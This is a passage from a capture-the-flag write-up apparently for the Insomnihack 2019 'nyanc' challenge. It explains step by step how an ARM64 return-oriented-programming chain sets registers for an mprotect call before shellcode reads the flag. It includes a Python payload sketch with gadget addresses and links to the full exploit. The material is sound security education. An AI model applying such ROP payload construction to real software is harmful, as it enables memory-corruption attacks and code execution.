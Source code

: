 - Have x0 as 0x500 (mprotect length) with the same gadget we used before
- Use gadget_3 to make x19 = gadget_1 and x20 = gadget_2
- return to gadget_4 from gadget_3, making x3 = x19 (gadget_1)
- gadget_4 calls x20 (gadget_2)
- gadget_2 gives us a controlled x30 and jumps to x3 (gadget_1)
- gadget_1 moves x0 (0x500) into x1 and returns

Here's the rough code equivalent:

```python
payload = ""

payload += p64(next_x29) + p64(gadget_3) + p64(0x0) * x (depends on stack) #returns to gadget_3

payload += p64(next_x29) + p64(gadget_4) + p64(gadget_1) + p64(gadget_2) + p64(0x0) * 4 # moves gadget_1/3 into x19/20 and returns to gadget_4

payload += p64(next_x29) + p64(next_gadget) #setting up for the next gadget and moving x19 into x3. x20 (gadget_2) is called from gadget_4
```

That was haaard, now let's see how we can control x2...

```
gadget_6 = 0x000000000004663c : mov x2, x21 ; blr x3
```

This is the only new gadget we need. It moves x21 into x2 and calls x3. We can already control x21 and x3 with the help of gadget_4 and gadget_3.

Now that we have full control over x0, x1 and x2, we just need to put it all together and shellcode the flag read. I won't go into details about that.

And that's a wrap folks, you can find our final exploit [here](https://github.com/perfectblue/ctf-writeups/blob/master/insomnihack-teaser-2019/nyanc/sol.py)

\- [Jazzy](https://twitter.com/ret2got)













